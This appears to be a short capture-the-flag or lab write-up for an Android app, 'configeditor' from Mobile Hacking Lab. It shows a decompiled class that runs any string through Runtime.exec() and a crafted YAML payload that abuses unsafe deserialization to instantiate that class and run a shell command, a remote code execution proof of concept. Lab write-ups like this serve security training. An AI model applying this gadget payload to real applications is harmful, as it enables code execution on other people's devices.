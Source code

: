 



<br /><br />



From: assets/example.yml

```java
#Comment: This is a supermarket list using YAML
#Note that - character represents the list
---
food:
  - vegetables: tomatoes #first list item
  - fruits: #second list item
      citrics: oranges
      tropical: bananas
      nuts: peanuts
      sweets: raisins

```



<br /><br />

From: com.mobilehackinglab.configeditor.LegacyCommandUtil

```java
public final class LegacyCommandUtil {
    public LegacyCommandUtil(String command) {
        Intrinsics.checkNotNullParameter(command, "command");
        Runtime.getRuntime().exec(command);
    }
}
```

This code defines a simple **constructor (initializer method)** for a class that executes a command in the operating system.

Its purpose is to take a command from the user (String command) and execute it on the system using Java’s **Runtime.exec()** method.

Using this, we can exploit the **RCE (Remote Code Execution)** vulnerability



<br /><br />

 create the yaml file

```yaml
food:
  - vegetables: tomatoes #first list item
  - fruits: #second list item
      citrics: oranges
      tropical: bananas
      nuts: peanuts
      sweets: !!com.mobilehackinglab.configeditor.LegacyCommandUtil [ 'touch /data/data/com.mobilehackinglab.configeditor/PoC.txt' ]

```
